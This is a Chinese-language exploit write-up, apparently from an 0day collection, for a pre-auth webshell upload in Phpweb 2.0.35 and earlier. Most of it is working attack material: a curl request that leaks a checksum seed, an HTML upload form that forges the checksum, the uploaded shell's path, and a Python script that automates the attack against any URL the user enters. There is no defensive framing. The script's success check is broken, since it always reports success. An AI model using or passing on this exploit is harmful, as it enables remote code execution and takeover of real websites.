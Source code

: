 # Phpweb 前台 getshell

> 原文：[http://book.iwonder.run/0day/Phpweb/Phpweb 前台 getshell.html](http://book.iwonder.run/0day/Phpweb/Phpweb 前台 getshell.html)

## 一、漏洞简介

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

## 二、漏洞影响

Phpweb<=2.0.35

## 三、复现过程

### 1.首先要获取加密前的 Md5 值，用于文件较检,通过 Post 提交数据来获取!

```
curl "http://website/base/post.php" -H "act=appcode" 
```

![image](img/51a592c990fcbb09be9c2fb1dd6fabcc.png)

```
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值 
```

### 2.获取加密后得 md5 值

然后将初始值 md5 加密(ac34c64cdb405eff881efc5476a64761 + “a”)

得到加密后的 MD5 值!

```
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的 md5 值(终值)! 
```

3.Getsehll exp:

```
<html>
<body>
<form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html> 
```

![image](img/edcabe092da7f2a26f21b8ed064d712d.png)

然后…Getshell!

![image](img/1a66d6fe73964a0c3d0223bae3f478a7.png)

当出现 OK 两个大字时,说明你成功了!!!

上传的 shell 路径是

[http://www.0-sec.org/effect/source/bg/shell 名称.php](http://www.0-sec.org/effect/source/bg/shell 名称.php)

![image](img/6ea35453ec21bc978243eb95b116eae9.png)

### 工具编写

Python exp[Python3]:

```
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()
headers = open(bdlj+"\headers.txt",'r')
headerss = headers.read()
print('\b')

ur = input("请输入目标网址:")
requrl =  ur + '/base/post.php'
reqdata = {"act":"appcode"}
r = requests.post(requrl,data=reqdata)
cz=r.text[2:34]
print ('初值:' + cz)

cz=r.text[2:34]+"a"
m = hashlib.md5()
b = cz.encode(encoding='utf-8')
m.update(b)
zz = m.hexdigest()
print ('终值:' + zz)

infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
for line in infile:
      outfile.write(line.replace('156as1f56safasfasfa', zz))
infile.close()
outfile.close()
datas = open(bdlj+"\datah.txt",'r')
datass = datas.read()

gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
gs.encoding = 'utf-8'
print (gs.text)

if {gs.text == "OK"}:
    print ("Getshell 成功! Shell:" + ur + "/effect/source/bg/mstir.php")
else:
    print ("Getsehll 失败!") 
```

整包下载地址:[https://github.com/ianxtianxt/Phpweb-Getshell-py](https://github.com/ianxtianxt/Phpweb-Getshell-py)

使用请下载整包,否则会缺少协议头和 data 数据!

使用教程:

![image](img/4ff79ed18ca7dc4f51978cadb3a60d64.png)

## 参考链接

> [https://m4tir.github.io/Phpweb-Reception-Getshell](https://m4tir.github.io/Phpweb-Reception-Getshell)

